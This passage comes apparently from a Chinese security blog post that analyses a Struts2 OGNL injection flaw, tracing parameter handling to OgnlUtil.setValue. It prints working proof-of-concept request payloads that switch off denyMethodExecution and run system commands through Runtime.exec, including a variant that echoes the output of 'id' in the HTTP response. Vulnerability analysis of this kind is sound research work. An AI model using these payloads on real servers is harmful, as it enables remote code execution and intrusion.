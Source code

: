 而`acceptableName`函数并没有考虑unicode编码的方式，导致其形同虚设。

回到`setParameters`，后续调用了`OgnlValueStack.setValue`

![image-20200430232635455](/images/talk_about_struts2/image-20200430232635455.png)

这里最终到了`OgnlUtil.setValue`计算OGNL表达式

### POC分析

来看一个调用命令执行的POC

```java
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0040java.lang.Runtime@getRuntime().exec(\'open /System/Applications/Calculator.app\')')(bla)(bla)
```

先来看第一句，该条ognl表达式用于开启方法执行，因为在调用`setParameters`之前，开发人员考虑到了参数执行OGNL表达式的风险，所以提前关闭了函数调用执行

![image-20200430234629782](/images/talk_about_struts2/image-20200430234629782.png)

设置完了之后，再还原回来

但是OGNL表达式对于上下文的内容是可控的，我们可以在进行函数调用前，将context里的`xwork.MethodAccessor.denyMethodExecution`设为`false`， 这样第二句poc就可以执行函数调用了。

所以在发送这两条POC时，需要控制好设置false在前，执行在后（ascii排序，可以看回显poc的处理）

跟前面一样，写一下回显的POC

```java
(a)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla))
(b)(('\u0023ret\u003d@java.lang.Runtime@getRuntime().exec(\'id\')')(bla))& // 执行命令
(c)(('\u0023dis\u003dnew\u0020java.io.DataInputStream(\u0023ret.getInputStream())')(bla))&
(d)(('\u0023res\u003dnew\u0020byte[2000]')(bla))&
(e)(('\u0023dis.readFully(\u0023res)')(bla))&
(f)(('\u0023writer\u003d\u0023context.get(\'com.opensymphony.xwork2.dispatcher.HttpServletResponse\').getWriter()')(bla))&
(g)(('\u0023writer.println(new\u0020java.lang.String(\u0023res))')(bla))& // 获取response，回显数据
(h)(('\u0023writer.flush()')(bla))&
(i)(('\u0023writer.close()')(bla))
```
